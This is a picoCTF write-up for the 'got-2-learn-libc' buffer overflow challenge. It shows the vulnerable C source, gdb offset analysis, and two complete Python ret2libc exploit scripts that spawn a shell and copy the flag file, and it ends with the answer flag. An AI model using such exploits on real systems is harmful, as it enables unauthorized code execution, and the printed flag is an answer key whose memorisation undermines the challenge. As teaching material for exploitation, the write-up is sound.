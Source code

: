 # Got-2-learn-libc

>This program gives you the address of some system calls.
>Can you get a shell?
>You can find the program in /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33 on the shell server. Source. 

### [~$ cd ..](../)

The given source is as follows:

> ```C
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 148
>#define FLAGSIZE 128
>
>char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */
>
>
>void vuln(){
>	char buf[BUFSIZE];
>	puts("Enter a string:");
>	gets(buf);
>	puts(buf);
>	puts("Thanks! Exiting now...");
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>
>	puts("Here are some useful addresses:\n");
>
>	printf("puts: %p\n", puts);
>	printf("fflush %p\n", fflush);
>	printf("read: %p\n", read);
>	printf("write: %p\n", write);
>	printf("useful_string: %p\n", useful_string);
>
>	printf("\n");
>
>	vuln();
>	return 0;
>}
> ```

The idea here is to exploit `gets` to call `system`, passing "/bin/sh" as parameter. We don't know the address of `system`, but we can compute the constant
difference between its address and, let's say `puts`'s one.

## Find the overflow

A first thing we can do is to find how many bytes we need to write before smashing the return address.

> ```
>gdb-peda$ disas vuln
>Dump of assembler code for function vuln:
>   0x000007a0 <+0>:	push   ebp
>   0x000007a1 <+1>:	mov    ebp,esp
>   0x000007a3 <+3>:	push   ebx
>   0x000007a4 <+4>:	sub    esp,0xa4
>   0x000007aa <+10>:	call   0x670 <__x86.get_pc_thunk.bx>
>   0x000007af <+15>:	add    ebx,0x1851
>   0x000007b5 <+21>:	sub    esp,0xc
>   0x000007b8 <+24>:	lea    eax,[ebx-0x1670]
>   0x000007be <+30>:	push   eax
>   0x000007bf <+31>:	call   0x618
>   0x000007c4 <+36>:	add    esp,0x10
>   0x000007c7 <+39>:	sub    esp,0xc
>   0x000007ca <+42>:	lea    eax,[ebp-0x9c]
>   0x000007d0 <+48>:	push   eax
>   0x000007d1 <+49>:	call   0x5b0 <gets@plt>
>   0x000007d6 <+54>:	add    esp,0x10
>   0x000007d9 <+57>:	sub    esp,0xc
>   0x000007dc <+60>:	lea    eax,[ebp-0x9c]
>   0x000007e2 <+66>:	push   eax
>   0x000007e3 <+67>:	call   0x618
>   0x000007e8 <+72>:	add    esp,0x10
>   0x000007eb <+75>:	sub    esp,0xc
>   0x000007ee <+78>:	lea    eax,[ebx-0x1660]
>   0x000007f4 <+84>:	push   eax
>   0x000007f5 <+85>:	call   0x618
>   0x000007fa <+90>:	add    esp,0x10
>   0x000007fd <+93>:	nop
>   0x000007fe <+94>:	mov    ebx,DWORD PTR [ebp-0x4]
>   0x00000801 <+97>:	leave  
>   0x00000802 <+98>:	ret    
>End of assembler dump.
>gdb-peda$ break *vuln+54
>Breakpoint 1 at 0x7d6
>gdb-peda$ run
>Starting program: .../got-2-learn-libc 
>Here are some useful addresses:
>
>puts: 0xf7e4f890
>fflush 0xf7e4d9f0
>read: 0xf7ec6b60
>write: 0xf7ec6bd0
>useful_string: 0x56557030
>
>Enter a string:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> ```

Now, let's count how many bytes there we need to fill the buffer and reach the return address. Our 'A's begin at `0xffffd10c` and 
the address to smash is at `$ebp+4=0xffffd1ac`, then we need 160 bytes:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd1a8	0xffffd1a8
>gdb-peda$ x/50wx $esp
>0xffffd0f0:	0xffffd10c	0x00000001	0x00000020	0x565557af
>0xffffd100:	0x565559b8	0x00000020	0xf7e5859b	0x41414141
>0xffffd110:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd120:	0x41414141	0x41414141	0xf7fa0041	0xf7e5abeb
>0xffffd130:	0xf7fa3d60	0xf7fa3da7	0x00000001	0xf7fd4110
>0xffffd140:	0x00000001	0x00000001	0xf7e5ab19	0xf7fa4870
>0xffffd150:	0xf7fa3d60	0xf7fa3000	0xffffd198	0xf7e516c5
>0xffffd160:	0xf7fa3d60	0x0000000a	0xf7e31f7b	0x56557000
>0xffffd170:	0xf7fe800b	0x56557000	0x00000001	0xf7dee700
>0xffffd180:	0xffffd1c8	0xf7fee710	0xf7fa4870	0x56557000
>0xffffd190:	0x00000001	0xf7fa3000	0xffffd1c8	0x565558ec
>0xffffd1a0:	0x0000000a	0x56557000	0xffffd1c8	0x565558f4
>0xffffd1b0:	0x00000001	0xffffd274
> ```

The payload will therefore be composed as follows:

160 \* 'X' + @system + @system + @"/bin/sh"

__The second @system is actually the address for the base pointer, could be whatever we want__

## Find the offset and script it

Second thing we can do is to compute the offset between `@puts` and `@system`.

> ```
>gdb-peda$ print system
>$1 = {<text variable, no debug info>} 0xf7e2a850 <system>
> ```

We previously got the address of `puts`: `0xf7e4f890`. The difference is therefore: 0xf7e4f890-0xf7e2a850 = 151616

Yes, but there is a problem: how can we passed non-ascii addresses to the program during the program execution ? As usual, Python
will be our best friend! Quite dirty but does the job:

> ```python
>import subprocess
>import struct
>
>p = subprocess.Popen(['./vuln'], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>
>main = None
>stdout_data = p.stdout.readline()
>useful_address = None
>system = None
>while stdout_data != None:
>	print stdout_data[:-1]
>	index = stdout_data.find('useful_string')
>	if index != -1:
>		useful_address = stdout_data[index+17:index+17+8]
>		p.stdin.write(160 * 'A' + 2 * struct.pack("<I", system) + struct.pack("<I", int(useful_address, 16)) + '\n')
>		break
>	index = stdout_data.find('puts')
>	if index != -1:
>		puts = stdout_data[index+8:index+8+8]
>		system = int(puts, 16)- 151616
>	stdout_data = p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>p.stdin.write('touch test.txt\n')
> ```

The script parses the program output to obtain "/bin/sh"'s address and computes the return address. Because of endianess, `struct` is used to write it properly.
However, the output of the shell command, at the end, could not be displayed. To test the script, we `touch`ed a file, and it was a success.

However, on the remote machine, the offset was not the same. We sligthly modified our script:

> ```python
>import subprocess
>import struct
>
>p = subprocess.Popen(['/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33/vuln'], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>
>main = None
>system = None
>stdout_data = p.stdout.readline()
>useful_address = None
>system = None
>while stdout_data != None:
>	print stdout_data[:-1]
>	index = stdout_data.find('useful_string')
>	if index != -1:
>		useful_address = stdout_data[index+17:index+17+8]
>		p.stdin.write(160 * 'A' + 2 * struct.pack("<I", system) + struct.pack("<I", int(useful_address, 16)) + '\n')
>		break
>	index = stdout_data.find('puts')
>	if index != -1:
>		puts = stdout_data[index+8:index+8+8]
>		system = int(puts, 16)- 149504 # /!\ Not the same offset
>	stdout_data = p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>p.stdin.write('cp /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33/flag.txt flag.txt\n')
>print p.stdout.readline()
> ```

We then moved on the remote machine and created a temporary folder with the script inside. We ran it, and saw that a file named `flag.txt` was copied!

FLAG: **picoCTF{syc4al1s_4rE_uS3fUl_6319ec91}**
